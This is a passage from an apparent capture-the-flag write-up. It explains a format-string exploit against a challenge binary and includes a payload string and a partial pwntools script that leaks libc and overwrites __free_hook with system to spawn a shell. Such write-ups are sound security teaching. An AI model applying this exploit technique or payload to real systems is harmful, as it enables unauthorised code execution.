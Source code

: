 We can't overwrite an 8 bytes-address in one-shot, because of the way the specifier %n works; we will overwrite 2 bytes at a time, so we need to place 4 consecutive addresses in the buffer (which will be 8th parameter, 9th parameter and so on), and we have to specify that each write must be of 2 bytes: %hn, i.e. short size integer.
<br>
We also need to pay attention to the number of character written so far in general, because the use of %n specifier doesn't reset the count.
<br>
As last thing, we have to ensure that the format string payload is shorter than 128 (see decompiled code).
<br>
A possible format string, for a given libc base address:
<br>
```
%26739c%1$n%46557c%8$hn%3894c%9$hn%21044c%10$hn%32838c%11$hn
```
We managed to get the shell, and the flag, with this exploit. Here is the script.

# Script
{% highlight python %}
from pwn import ELF, process, remote, context, p64, u64


def main():
    elf = ELF("./curve_patchelf")
    libc = ELF("./libc-2.31.so")
    context.binary = elf
    # r = process(elf.path)
    r = remote("143.198.127.103", 42004)

    # INPUT 1
    payload = b"A"*(136 + 8 + 8)
    r.sendafter(b"Input 1:\n", payload)

    r.recv(136) # PADDING
    r.recv(8)   # PADDING OVER CANARY
    r.recv(8)   # PADDING OVER RBP
    leak = u64(r.recv(6) + b"\x00"*2)
    libc.address = leak - 234 - libc.symbols["__libc_start_main"]

    # INPUT 2
    address = libc.symbols["__free_hook"]
    payload = b"".join([p64(address+(i*2)) for i in range(4)])
    r.sendlineafter(b"Input 2:\n", payload)

    # INPUT 3
    content = p64(libc.symbols["system"])
    content = [content[i:i+2] for i in range(0, 8, 2)]
    offset = 8
    s = b"sh\x00\x00"
    s = int.from_bytes(s, "little")
    payload = f"%{s}c%1$n"
    numwritten = s
    for i in range(len(content)):
        l = int.from_bytes(content[i], "little")
        x = (l - numwritten) % 0x10000
        payload += f"%{x}c%{offset+i}$hn"
        numwritten = l
    assert len(payload) <= 0x80, "PAYLOAD TOO LONG"